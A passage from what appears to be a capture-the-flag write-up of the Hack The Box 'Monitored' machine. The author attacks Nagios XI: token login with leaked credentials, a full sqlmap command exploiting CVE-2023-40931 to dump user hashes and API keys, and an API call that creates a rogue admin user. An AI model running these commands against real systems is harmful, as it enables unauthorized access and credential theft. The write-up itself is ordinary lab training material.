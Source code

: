 I also can't use it for ssh, not for the svc user anyway, and the snmap service does not return any users when I attempt to query the user account OID (`1.3.6.1.4.1.77.1.2.25`). But interesting, when I use a different user and/or password, the response is `Invalid username or password`. So I suspect the `svc` account does exit, but maybe it has been disabled. It also means that the credentials are correct. 

When I search exploit-db for `Nagios XI`, I find a number of exploits. It's seem like maybe we could be able to use one of them, but I tried some, and it doesn't look like they were. I get `Login ... Failed!` from [this one](https://www.exploit-db.com/exploits/49422), because it is after all trying to login with the `login.php` page, but that's the one we're already trying. 

There is an API we can try, but the documentation isn't great. I find a reference to an `authenticate` endpoint [here](https://support.nagios.com/forum/viewtopic.php?p=336355&hilit=%2Fapi%2Fv1%2Fauthenticate#p336355) . I try the command referenced here `curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1" -d "username=svc&=XjH7VCehowpR1xZB&valid_min=15" -k -v` and with a GET request as well, but I can't seem to authenticate, and I learn that we can only use the POST request. Then I realize I left out the password parameter title in the curl command above. I try again (`curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1" -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=15" -k -v`), and I get this response:

![Screenshot 2024-10-31 at 9.49.29 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 9.49.29 PM.png){: .center-aligned width="600px"}

So we have an authentication token at least. I'm not really sure what to do with that, but when I Google `nagiosxi token /api/v1/authenticate`, I actually see [this exploit](https://www.exploit-db.com/exploits/51925O)from exploit-db. And it contains this line:

![Screenshot 2024-10-31 at 9.58.49 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 9.58.49 PM.png){: .center-aligned width="600px"}

So I just enter this enter my browser: `http://nagios.monitored.htb/nagiosxi/login.php?token=43514b34eea3d838361f57bc116e6132428ad8fa`, and I get in!

![Screenshot 2024-10-31 at 10.00.23 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 10.00.23 PM.png){: .center-aligned width="600px"}

Not in the screenshot, but the footer shows that we are working with `Nagios 5.11.0`. When we google that, we see there are a [couple CVE's](https://www.tenable.com/plugins/nessus/181758) for SQL injection, and googling 
"CVE-2023-40931" returns [this PoC](https://github.com/sealldeveloper/CVE-2023-40931-PoC). If we replace our relevant parameters, the full command is:

```
sqlmap -D nagiosxi -T xi_users -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=`curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate -d "username=svc&password=XjH7VCehowpR1xZB&valid_min=1000" | awk -F'"' '{print$12}'`" --dump --level 4 --risk 3 -p id --batch
```

This dumps the `xi_users` table which shows us the users, their bcrypt encrypted passwords, and their API keys. This includes `svc` which is disabled, but it also includes `nagiosadmin`. I try to crack the `nagiosadmin` encrypted password, but I don't get anything back. So we know there are authenticated RCEs, but they require us to login normally. Now that we have the high-privilege API key (`IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`, maybe we can change a password, enable the `svc` user, or create a new user. When I google "nagios api create user", I find [this](https://support.nagios.com/forum/viewtopic.php?t=42923) forum post with what appears to be the perfect command for me. I adjust it for my own use and run `curl -XPOST "http://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=poppop&password=party1&name=Pop%20Pop&email=pop@pop.com"` which returns these results:

